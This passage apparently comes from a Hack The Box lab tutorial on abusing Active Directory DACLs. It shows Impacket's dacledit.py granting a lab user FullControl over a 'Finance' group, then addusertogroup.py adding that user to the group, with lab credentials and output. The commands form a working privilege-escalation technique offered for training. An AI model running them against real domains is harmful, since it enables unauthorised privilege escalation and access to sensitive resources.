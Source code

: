 #### Modifying Luna's DACLs over the Finance group

```shell
anas21@htb[/htb]$ python3 examples/dacledit.py -principal luna -target "Finance" -dc-ip 10.129.205.81 inlanefreight.local/luna:Moon123 -action write

Impacket v0.9.25.dev1+20221216.150032.204c5b6b - Copyright 2021 SecureAuth Corporation

[*] DACL backed up to dacledit-20230524-211441.bak
[*] DACL modified successfully!
```

#### Querying Luna's DACLs over the Finance Group after Modification

```shell
anas21@htb[/htb]$ python3 examples/dacledit.py -principal luna -target "Finance" -dc-ip 10.129.205.81 inlanefreight.local/luna:Moon123

Impacket v0.9.25.dev1+20221216.150032.204c5b6b - Copyright 2021 SecureAuth Corporation

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-1267651629-1192007096-1618970724-4618)
[*]   ACE[3] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : None
[*]     Access mask               : FullControl (0xf01ff)
[*]     Trustee (SID)             : luna (S-1-5-21-1267651629-1192007096-1618970724-4618)
[*]   ACE[21] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE, INHERITED_ACE
[*]     Access mask               : WriteDACL (0x40000)
[*]     Trustee (SID)             : luna (S-1-5-21-1267651629-1192007096-1618970724-4618)
```

Now we can add a user to the group using [addusertogroup](https://github.com/juliourena/ActiveDirectoryScripts/blob/main/Python/addusertogroup.py):

#### Using addusertogroup.py to add Luna to the Finance group

```shell
anas21@htb[/htb]$ python3 addusertogroup.py -d inlanefreight.local -g "Finance" -a luna -u luna -p Moon123

[+] Connected to Active Directory successfully.
[+] Group Finance found.
[+] User luna found.
[+] User added to group successfully.
```

If we want to revert the `DACL` modification, we can use the backup file generated by `dacledit.py` when we performed the `write action`:
